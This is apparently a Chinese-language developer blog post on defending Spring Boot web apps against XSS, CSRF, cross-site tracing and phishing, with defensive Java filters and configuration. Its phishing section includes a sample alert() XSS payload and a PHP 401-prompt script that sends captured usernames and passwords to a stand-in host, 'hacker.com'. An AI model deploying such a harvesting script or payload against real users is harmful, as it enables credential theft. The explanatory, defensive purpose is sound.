 ```yaml
---
title: 主流web前端安全需要防范的点
categories:
  - javascript
date: 2020-04-13 20:05:22
tags:
---
```


# 主流web前端安全需要防范的点

## 概述

我们的web应用项目分为两类，只内网可访问项目和外网可访问项目，内网项目因为有防火墙策略，可以暂缓对前端安全的审查，但外网项目需要注意很多前端安全风险，这些风险会被黑客利用，轻则篡改网页内容，重则窃取网站内部数据，更为严重的则是在网页中植入恶意代码，使得用户受到侵害。常见的安全漏洞如下：

- XSS 攻击：对 Web 页面注入脚本，使用 JavaScript 窃取用户信息，诱导用户操作。
- CSRF 攻击：伪造用户请求向网站发起恶意请求。
- 钓鱼攻击：利用网站的跳转链接或者图片制造钓鱼陷阱。
- HTTP参数污染：利用对参数格式验证的不完善，对服务器进行参数注入攻击。
- 远程代码执行：用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令。

值得注意的是，这些安全隐患虽然是从前端发起攻击，但实质的防范是需要后端的协助，一般后端框架本身会提供集成方案来解决这些风险，如Spring Security，我们以团队主流的框架spring boot为例，自检是否有被注意到（因为我并不会java，但会其他后端技术，因为原理是一样的，框架的实现也都是大同小异的，所以按照我提供的方案去找下你们自己框架的，肯定是可以直接用的直接用的方法配置的）。

## 安全威胁XSS的防范

### 简介
XSS（cross-site scripting跨域脚本攻击）攻击是最常见的 Web 攻击，其重点是『跨域』和『客户端执行』。
XSS 攻击一般分为两类：
- Reflected XSS（反射型的 XSS 攻击）
- Stored XSS（存储型的 XSS 攻击）
对XSS攻击的防范，核心是转义，使XSS攻击代码失效。

### 反射型 XSS 及其防范
反射型的 XSS 攻击，主要是由于服务端接收到客户端的不安全输入，在客户端触发执行从而发起 Web 攻击。比如：

在某购物网站搜索物品，搜索结果会显示搜索的关键词。搜索关键词填入<script>alert('handsome boy')</script>, 点击搜索。页面没有对关键词进行过滤，这段代码就会直接在页面上执行，弹出 alert。

**防范措施**

特殊字符进行转义操作，例如将 < > /等特殊字符转换成html支持的 < >等，这样显示到页面的时候还是那些内容但是不会当成脚本执行了。
这种方式我们用到了SpringFramework自带的HtmlUtils.htmlEscape方法进行替换。

### 存储型 XSS 及其防范

基于存储的 XSS 攻击，是通过提交带有恶意脚本的内容存储在服务器上，当其他人看到这些内容时发起 Web 攻击。

最主要的传参方式之一的表单交互，对参数进行过滤：
```java
package cn.pconline.pcloud.admin.config;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;

@WebFilter(filterName = "xssFilter", urlPatterns = "/*", asyncSupported = true)
public class XssFilter implements Filter {

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
            throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) request;
        XssAndSqlHttpServletRequestWrapper xssRequestWrapper = new XssAndSqlHttpServletRequestWrapper(req);
        chain.doFilter(xssRequestWrapper, response);
    }

    @Override
    public void destroy() {

    }
}
```

考虑到在现在的开发中，更多的是使用json类型做数据交互，所以对json的过滤也是必不可少的，这里是通过修改SpringMVC的json序列化来达到过滤xss的目的：

```java
import com.fasterxml.jackson.core.JsonGenerator;
import com.fasterxml.jackson.databind.JsonSerializer;
import com.fasterxml.jackson.databind.SerializerProvider;
import org.apache.commons.text.StringEscapeUtils;
import java.io.IOException;
public class XssStringJsonSerializer extends JsonSerializer<String> {
	@Override
 	public Class<String> handledType() {
 	return String.class;
}
 	@Override
public void serialize(String value, JsonGenerator jsonGenerator,
 	SerializerProvider serializerProvider) throws IOException {
 		if (value != null) {
 		String encodedValue = StringEscapeUtils.escapeHtml4(value);
 		jsonGenerator.writeString(encodedValue);
 		}
 	}
}
```

### JSONP XSS
JSONP 的 callback 参数非常危险，他有两种风险可能导致 XSS

- callback 参数意外截断js代码，特殊字符单引号双引号，换行符均存在风险。
- callback 参数恶意添加标签（如 <script> ），造成 XSS 漏洞。

因为我对项目的规定是前端项目禁止使用jsonp，所以这一点可以忽略。

### 其他 XSS 的防范方式
浏览器自身具有一定针对各种攻击的防范能力，他们一般是通过开启 Web 安全头生效的。框架内置了一些常见的 Web 安全头的支持。

- CSP
W3C 的 Content Security Policy，简称 CSP，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。

框架内支持 CSP 的配置，不过是默认关闭的，开启后可以有效的防止 XSS 攻击的发生。要配置 CSP , 需要对 CSP 的 policy 策略有了解，具体细节可以参考 CSP 是什么。

- X-Download-Options:noopen
默认开启，禁用 IE 下下载框Open按钮，防止 IE 下下载文件默认被打开 XSS。

- X-Content-Type-Options:nosniff
禁用 IE8 自动嗅探 mime 功能例如 text/plain 却当成 text/html 渲染，特别当本站点 serve 的内容未必可信的时候。

- X-XSS-Protection
IE 提供的一些 XSS 检测与防范，默认开启

close 默认值false，即设置为 1; mode=block


## 安全威胁 CSRF 的防范

### 概述
CSRF（Cross-site request forgery跨站请求伪造，也被称为 One Click Attack 或者 Session Riding，通常缩写为 CSRF 或者 XSRF，是一种对网站的恶意利用。 CSRF 攻击会对网站发起恶意伪造的请求，严重影响网站的安全。因此框架内置了 CSRF 防范方案。

### 防范方式
通常来说，对于 CSRF 攻击有一些通用的防范方案，简单的介绍几种常用的防范方案：

- Synchronizer Tokens：通过响应页面时将 token 渲染到页面上，在 form 表单提交的时候通过隐藏域提交上来。
- Double Cookie Defense：将 token 设置在 Cookie 中，在提交 post 请求的时候提交 Cookie，并通过 header 或者 body 带上 Cookie 中的 token，服务端进行对比校验。
- Custom Header：信任带有特定的 header（例如 X-Requested-With: XMLHttpRequest）的请求。这个方案可以被绕过，所以 rails 和 django 等框架都放弃了该防范方式。

Spring Security具有出色的CSRF支持，如果您正在使用Spring MVC的<form:form>标签或Thymeleaf @EnableWebSecurity，默认情况下处于启用状态，CSRF令牌将自动添加为隐藏输入字段。代码示例如下：

```java
 @EnableWebSecurity
public class WebSecurityConfig extends WebSecurityConfigurerAdapter {
    @Override
    protected void configure(HttpSecurity http) throws Exception {
        http
            .csrf()
                .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse());
    }
}
```

Session vs Cookie 存储：默认配置下，框架会将 CSRF token 存在 Cookie 中，以方便 AJAX 请求获取到。但是所有的子域名都可以设置 Cookie，因此当我们的应用处于无法保证所有的子域名都受控的情况下，存放在 Cookie 中可能有被 CSRF 攻击的风险。所以在子域名存在并不受控的情况下，用 Session 存储csrf token更为保险。

## XST

### 概述
XST 的全称是 Cross-Site Tracing，客户端发 TRACE 请求至服务器，如果服务器按照标准实现了 TRACE 响应，则在 response body 里会返回此次请求的完整头信息。通过这种方式，客户端可以获取某些敏感的头字段，例如 httpOnly 的 Cookie。

拓展阅读
http://www.w3.org/Protocols/rfc2616/rfc2616-sec9.html
http://deadliestwebattacks.com/2010/05/18/cross-site-tracing-xst-the-misunderstood-vulnerability/

### 防范方式
禁止 trace，track，options 三种危险类型请求。

## 钓鱼攻击
钓鱼有多种方式，这里介绍 url 钓鱼、图片钓鱼和 iframe 钓鱼。

### url 钓鱼

服务端未对传入的跳转 url 变量进行检查和控制，可能导致可恶意构造任意一个恶意地址，诱导用户跳转到恶意网站。 由于是从可信的站点跳转出去的，用户会比较信任，所以跳转漏洞一般用于钓鱼攻击，通过转到恶意网站欺骗用户输入用户名和密码盗取用户信息，或欺骗用户进行金钱交易； 也可能引发的 XSS 漏洞（主要是跳转常常使用 302 跳转，即设置 HTTP 响应头，Locatioin: url，如果 url 包含了 CRLF，则可能隔断了 HTTP 响应头，使得后面部分落到了 HTTP body，从而导致 XSS 漏洞）。

### 防范方式

- 若跳转的 url 事先是可以确定的，包括 url 和参数的值，则可以在后台先配置好，url 参数只需传对应 url 的索引即可，通过索引找到对应具体 url 再进行跳转；
- 若跳转的 url 事先不确定，但其输入是由后台生成的（不是用户通过参数传人），则可以先生成好跳转链接然后进行签名；
- 若 1 和 2 都不满足，url 事先无法确定，只能通过前端参数传入，则必须在跳转的时候对 url 进行按规则校验：判断 url 是否在应用授权的白名单内。

框架提供了安全跳转的方法，可以通过配置跳转白名单避免这种风险，spring boot中

### 图片钓鱼

如果可以允许用户向网页里插入未经验证的外链图片，这有可能出现钓鱼风险。

比如常见的 401钓鱼, 攻击者在访问页面时，页面弹出验证页面让用户输入帐号及密码，当用户输入之后，帐号及密码就存储到了黑客的服务器中。 通常这种情况会出现在<img src=$url />中，系统不对$url是否在域名白名单内进行校验。

攻击者可以在自己的服务器中构造以下代码：

401.php：作用为弹出 401 窗口，并且记录用户信息。
```php
<?php
    header('WWW-Authenticate: Basic realm="No authorization"');
    header('HTTP/1.1 401 Unauthorized');
        $domain = "http://hacker.com/fishing/";
        if ($_SERVER[sectech:'PHP_AUTH_USER'] !== null){
            header("Location: ".$domain."record.php?a=".$_SERVER[sectech:'PHP_AUTH_USER']."&b=".$_SERVER[sectech:'PHP_AUTH_PW']);
        }
?>
```
之后攻击者生成一个图片链接<img src="http://xxx.xxx.xxx/fishing/401.php?a.jpg//" />。

当用户访问时，会弹出信息让用户点击，用户输入的用户名及密码会被黑客的服务器偷偷记录。

### 防范方式

做 url 过滤

### iframe 钓鱼

iframe 钓鱼，通过内嵌 iframe 到被攻击的网页中，攻击者可以引导用户去点击 iframe 指向的危险网站，甚至遮盖，影响网站的正常功能，劫持用户的点击操作。

HTTP 提供了 X-Frame-Options 这个安全头来防止 iframe 钓鱼。默认值为 SAMEORIGIN，只允许同域把本页面当作 iframe 嵌入。

当需要嵌入一些可信的第三方网页时，可以关闭这个配置，不过这也就会导致安全隐患，我的建议是第三方网站使用nginx反向代理重写url，然后继续加这个 HTTP 头。

